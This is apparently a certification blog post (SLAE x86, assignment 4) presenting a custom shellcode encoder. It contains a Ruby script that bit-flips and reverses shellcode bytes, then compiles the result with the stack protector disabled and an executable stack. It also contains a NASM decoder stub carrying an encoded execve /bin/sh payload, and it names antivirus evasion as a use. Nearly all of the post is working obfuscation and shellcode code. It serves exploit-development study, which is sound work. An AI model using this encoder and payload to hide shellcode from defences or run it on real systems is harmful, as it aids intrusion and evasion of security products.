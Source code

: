 ```yaml
---
title: "SLAE x86 - Assignment 0x4"
date: 2021-10-22T09:14:40Z
draft: false
tags:
  - exploit_dev
  - assembly
categories:
  - certification
keywords:
  - slae
  - shellcode
  - assembly
---
```


# Custom Shellcode Encoder
## Objectives
- Create a custom encoding scheme
- PoC using execve-stack as the shellcode to encode with the schema and execute

## Overview
Shellcode encoding is used to make a shellcode looks gibberish or mask the original functionality. One use-case is evading antivirus or related products. During the execution of the shellcode, the first part of it will decode the encoded part of the main shellcode then execute once done.

## Schema
The schema utilized for this assignment is plain and simple, but a good exercise to implement the decoder in the nasm code. Below are the steps done:
- iterate throught the shellcode bytes and check:
  - if even, add 1
  - if not, subtract 1
- once done with all the shellcode bytes, it will reverse the arrangement
  - first byte will be the last, the last byte will be the first, and so on.

The following Ruby script do this implementation, as well as compile the nasm code which has the decoder(this will be discussed in the next section):
```ruby
#!/usr/bin/env ruby
# Author: Jason Villaluna

require 'optparse'

def run
  parse_args
  compile_nasm(@filename)
  @shellcode = generate_shellcode(@filename)
  encode
  replace_encoded_shellcode
  compile_nasm
  @new_shellcode = generate_shellcode
  replace_shellcode
  compile_binary
  display_shellcode
rescue OptionParser::MissingArgument
  puts "\e[33mMissing argument:\e[0m"
  @parser.parse %w[--help]
rescue StandardError => e
  puts "\e[31m[-]\e[0m Encountered: \e[31m'#{e.class}' #{e}\e[0m"
  exit(1)
end

# Compile the nasm code
def compile_nasm(filename = 'decoder')
  `nasm -f elf32 -o #{filename}.o #{filename}.nasm`
  `ld -m elf_i386 -s -o #{filename} #{filename}.o`
end

# Generate shellcode using objdump
def generate_shellcode(filename = 'decoder')
  objdump = `objdump -d #{filename}`
  objdump.split("\n").map { |line| line.split("\t")[1] }
         .compact.map(&:split).join('\x').prepend('\x')
end

# Encode the shellcode
def encode
  # Will add 1 if the input is even and subtract 1 if odd
  # and then reverse the arrangement of the bytes
  encoded = @shellcode.split('\\x').map do |input|
    input_ = input.to_i(16)
    input_.even? ? input_ + 1 : input_ - 1
  end[1..-1].reverse
  @length = encoded.size

  # Format for the message in #display_shellcode
  @encoded =  encoded.map { |number| number.to_s(16) }.join('\x').prepend('\x')

  # Format needed for that nasm code
  @encoded_shellcode = @encoded.gsub('\\', ',0')[1..-1]
end

# Replace a value inside a file
def replace_content(filename)
  file_content = File.read(filename)
  yield(file_content)
  File.write(filename, file_content)
end

# Replace shellcode in the shellcode tester program
def replace_encoded_shellcode
  replace_content('./decoder.nasm') do |nasm_code|
    nasm_code.gsub!(/LENGTH equ .*$/, "LENGTH equ #{@length}")
    nasm_code.gsub!(/code: db .*$/, "code: db #{@encoded_shellcode}")
  end
end

# Replace shellcode in the shellcode tester program
def replace_shellcode
  replace_content('./shellcode.c') do |c_code|
    c_code.gsub!(/\"\S+\"\;/, "\"#{@new_shellcode}\"\;")
  end
end

# Compile the shellcode into binary with the help of the shellcode.c program
def compile_binary
  `gcc -fno-stack-protector -m32 -z execstack shellcode.c -o shellcode 2> /dev/null`
end

# print the shellcode values
def display_shellcode
  puts "Input shellcode:   '#{@shellcode}'"
  puts "Encoded shellcode: '#{@encoded}'"
  puts "Final shellcode:   '#{@new_shellcode}'"
end

def parse_args
  @parser = OptionParser.new do |opts|
    opts.banner = "Usage: #{$0} [options]"
    opts.separator ""
    opts.separator "Options:"

    opts.on("--nasm", "-n FILENAME", "Nasm file to be encoded.") do |value|
      @filename = value
    end

    opts.on_tail("--help", "-h", "Print options") do |show_help|
      warn opts
      exit(0)
    end
  end
  @parser.parse!
end

if __FILE__ == $PROGRAM_NAME
  run
  puts "\n\e[32m[+]\e[0m Successfully generated \e[32mshellcode\e[0m "\
       "binary for testing!"
end
```

## Decoder
The decoder will simply reverse the operations done by the [encoder](#schema). This will comprise of the following steps:
- reverse the arrangement of the shellcode bytes
- iterate through the shellcode bytes and check:
  - if odd, subtract 1
  - if not, add 1

Below is the nasm code implementation of the decoder with inline comments for further explanation:
```nasm
; Purpose: decode an encoded(see compiler.rb) shellcode
global _start

section .text
  LENGTH equ 25

_start:
  jmp short call_shellcode    ; jump to call_shellcode

decoder:
  pop esi                      ; esi = address of the Shellcode
  xor ecx, ecx                 ; clear ecx
  xor ebx, ebx                 ; clear ebx
  mul ecx                      ; clear eax and edx
  mov cl, LENGTH - 1           ; cl = length - 1 for loop (reverse)

reverse:                       ; reverse the arrangement of the Shellcode bytes
  xchg al, byte [esi + edx]    ; al = value of the shellcode using edx as index
  xchg bl, byte [esi + ecx]    ; bl = value of the shellcode using ecx as index
  xchg bl, al                  ; exchange the values of al and bl
  xchg al, byte [esi + edx]    ; move the value of ecx index into edx index
  xchg bl, byte [esi + ecx]    ; move the value of edx index into ecx index
  inc edx                      ; edx + 1 to move in index index
  dec ecx                      ; ecx - 1 to move in previous index
  cmp dl, LENGTH/2             ; stop the loop if the first and second half of shellcode already interchanged
  jnz reverse                  ; if not, continue the loop(reverse)

decode:                        ; subtract 1 for even and add 1 for odd
  mov al, byte [esi + ebx]     ; run through every byte of the Shellcode
  test al, 1                   ; check if current byte is an odd. Source: https://www.felixcloutier.com/x86/test and https://stackoverflow.com/questions/49116747/assembly-check-if-number-is-even/49116885
  jnz subtract                 ; if odd, subtract 1
  inc al                       ; if even, add 1

decode_:
  mov byte [esi + ebx], al     ; move new value into the current Shellcode byte
  inc ebx                      ; decode the next byte
  cmp ebx, LENGTH              ; stop the loop if all bytes are decoded
  jnz decode                   ; otherwise, continue the loop(decode)
  jz short Shellcode           ; jump to the Shellcode once it is decoded

subtract:                      ; subtract 1
  dec al
  jmp short decode_

call_shellcode:
  call decoder                 ; jump to decoder and push the Shellcode into the stack
  Shellcode: db 0x81,0xcc,0xa,0xb1,0xe0,0x88,0x52,0xe3,0x88,0x51,0xe2,0x88,0x6f,0x68,0x63,0x2e,0x69,0x69,0x72,0x2e,0x2e,0x69,0x51,0xc1,0x30
```

## Script usage and testing
![](encoder_decoder.gif)

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE - 1558

---
[`Link to Github repository`](https://github.com/jsnv-dev/slae_x86_assignments/tree/main/A4) | [`Link to index page`](../slae_x86)
